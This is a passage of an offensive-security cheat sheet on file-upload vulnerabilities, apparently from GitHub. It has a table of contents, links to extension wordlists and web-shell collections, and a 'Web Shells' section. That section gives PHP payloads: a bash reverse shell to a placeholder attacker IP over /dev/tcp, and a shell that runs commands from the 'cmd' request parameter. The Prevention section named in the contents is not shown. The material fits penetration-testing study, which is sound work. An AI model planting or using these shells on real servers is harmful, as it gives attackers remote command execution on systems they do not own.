 ### Content
- [Web Shells](#web-shells)
- [Bypassing Filters](#bypassing-filters)
	- [File Extension Validation](#file-extension-validation)
		- [Client-Side Validation](#client-side-validation)
		- [Blacklist Filters](#blacklist-filters)
		- [Whitelist Filters](#whitelist-filters)
	- [Type Filters](#type-filters)
- [Various File Uploads Techniques](#various-file-uploads-techniques)
	- XSS
	- XXE
	- Injections in File Name
	- Upload Directory Disclosure
	- Windows-specific Attacks
	- DOS
- [Prevention](#prevention)
---
> [!NOTE]
> - Fuzz the file extension using a [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) wordlist or use Wappalyzer extension to Identify the site web framework.
> - `PayloadsAllTheThings` provides lists of extensions for [PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) and [.NET](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) web applications.
> - `SecLists` list of common [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt).
> - SecLists' [Content-Type Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt).
> - Web shells [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells).
> - PHP web shells: [phpbash](https://github.com/Arrexel/phpbash).
> - PHP Reverse web shell: [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php), Don't forget to change the listener IP and Port.

---
# Web Shells
- PHP
	``` PHP
	<?php echo "File Uploaded";?>
	# Execute a command or connect to listenning reverse shell
	<?php shell_exec('bash -c "bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1"'); ?>
	# Uploade a web shell that you can interact with by visit http://IP:PORT/<UploadPath>/shell.php?cmd=whoami
	# In case of using this custom web shell, use source-view by clicking `[CTRL+U]`
	<?php system($_REQUEST['cmd']); ?>
	```
	